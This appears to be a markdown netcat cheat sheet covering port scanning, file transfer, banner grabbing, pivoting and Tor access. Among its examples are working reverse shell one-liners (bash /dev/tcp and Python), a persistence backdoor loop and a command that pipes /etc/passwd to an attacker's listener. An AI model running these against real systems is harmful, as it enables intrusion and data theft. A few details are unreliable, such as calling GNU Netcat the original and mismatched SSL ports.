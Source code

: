 # NETCAT

Netcat (nc) is called the **Swiss Army knife of networking** because it is a simple yet powerful tool for network communication, It's commonly used for debugging, testing, and even for creating simple client-server applications

Why we use NETCAT

✅ **Lightweight** – Comes pre-installed on most Linux/macOS systems.

✅ **No Dependencies** – Unlike SCP or FTP, it doesn’t require authentication.

✅ **Versatile** – Works for file transfer, port scanning, reverse shells, and more.

✅ **Cross-Platform** – Works on Linux, macOS, and Windows.

### **Security Considerations**

- **Firewall Rules** : Ensure that firewalls allow traffic on the specified ports.
- **Encryption** : Netcat does not encrypt data by default. If you need secure communication, consider using tools like **`openssl`**or **`ssh`**.
- **Permissions** : Be cautious when using Netcat with elevated privileges, especially when opening ports or executing commands remotely.

### **Netcat Variants**

There are several versions of Netcat available, including:

- **GNU Netcat** : The original version.
- **Ncat** : Part of the Nmap project, offers more features and better security.
- **Socat** : A more advanced tool that can handle multiple protocols and connections.

## Netcate Syntax

```bash
nc [options] [hostname] [port]
```

### Common use Cases

1. **Port scanning**
    
    ```bash
    nc -zv <hostname> <start_port>-<end_port>
    ```
    
    - **`z`**: Zero-I/O mode (just scan for listening daemons, don't send any data).
    - **`v`**: Verbose output.
2. **Creating a Simple Chat Server**
    
    **server**
    
    ```bash
    nc -l <port>
    ```
    
    **client**
    
    ```bash
    nc <server_ip> <port>
    ```
    
3.  **File Transfer**
    
    **receiver**
    
    ```bash
    nc -l <port> > received_file
    ```
    
    **sender**
    
    ```bash
    nc <server_ip> <port> < file_to_send
    ```
    
4.  **Banner Grabbing**
    
    **What is banner Grabbing**
    
    ***Banner grabbing*** is a technique used to gain information about a computer system on a network and the services running on its open ports
    
    **GET HTTP Server Banner**
    
    ```bash
    echo -e "HEAD / HTTP/1.1\n\n" | nc <target-ip> 80
    ```
    
5. **Reverse Shell**
    
    **Attacker (listener)**
    
    ```bash
    nc -lvp 4444
    ```
    
    **target (victim machine executes this )**
    
    ```bash
    bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
    ```
    
    **python-based, if firewalls blocking nc**
    
    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
    ```
    
    **Persistence backdoor**
    
    ```bash
    while true; do nc -lvp 5555 -e /bin/bash; done
    ```
    
6. Data exfiltration
    
    **Exfiltrate /etc/passwd over netcate**
    
    **attacker**
    
    ```bash
    nc -lvp 444 > stolen_data.txt
    ```
    
    **vitctim** 
    
    ```bash
    cat /etc/passwd | nc <attacker-ip> 444
    ```
    
7. Port Forwarding & Pivoting 
    
    **forward traffic from port 8080 to 9090**
    
    ```bash
    mkfifo /tmp/f; nc -lvp 8080 0</tmp/f | nc 127.0.0.1 9090 1>/tmp/f
    ```
    
8. Encrypted Netcat session
    
    **Server:**
    
    ```bash
    ncat --ssl -lvp 444
    ```
    
    **client:**
    
    ```bash
    ncat --ssl <target-ip> 4444
    ```
    
9. Connect to a Tor Hidden Service 
    
    **Access .onion service  via netcat**
    
    ```bash
    torsocks nc <hidden-service.onion> 80
    ```
